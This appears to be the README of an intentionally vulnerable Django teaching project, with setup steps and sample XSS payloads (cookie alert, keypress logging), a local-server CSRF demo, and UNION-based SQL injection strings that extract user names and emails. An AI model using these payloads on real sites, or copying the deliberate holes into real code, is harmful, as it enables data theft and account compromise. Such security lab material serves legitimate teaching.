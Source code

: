 This project can make the xss attack, csrf attack, sql inject attack.

The main reference is , <a href="https://whitehatways.com/cross-site-scripting-and-cookies-a-delicious-disaster/">linked here</a>, first download this project to your local computer. 

1. Install requirements with
<code>python3 -m pip install -r requirements.txt</code>

2. Run the following commands to get Django up and going!
<br><code>python ./manage.py makemigrations</code>
<br><code>python ./manage.py migrate</code>
<br><code>python ./manage.py createsuperuser</code>
<br>&emsp; Following the prompts here!
<br><code>python seed.py</code>

3. Run the server

<br>Run <code>python ./manage.py runserver</code> to begin!

4. To XSS

The post page can add comment and show the comments written by logged or anonymous users. So the anonymous users can 
inject the script code in the comments by XSS. Everyone open the post page will trigger the xss code which may leak
users information such like cookies, passwords and affect the use of the website.

some xss code like:
- steal cookies from logged-in users
```html
<script>alert(document.cookie.split('; ')[1]);</script>
```
- alert something to interference 
```html
<script>alert('You've been hacked');</script>
```
- Listen to the user's keyboard input
```html
<script>document.addEventListener('keypress', function (event) {console.log(event.key)})</script>
```

5. To CSRF

To CSRF We need to open a fake website by http server use following bash code
```bash
python -m http.server 8080
```
when you in the logged in the website, and Visit the `127.0.0.1:8080`. 
You commented on something that was not manned by you

6. To sql injection

The home page have a search input which have risks of SQL injection,
We can inject the database by some SQL code such like:
- get django user list
```sql
z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '
```
- get the email of django user 
```sql
z' UNION SELECT mail FROM auth_user WHERE first_name LIKE '
```

Happy Hacking! :)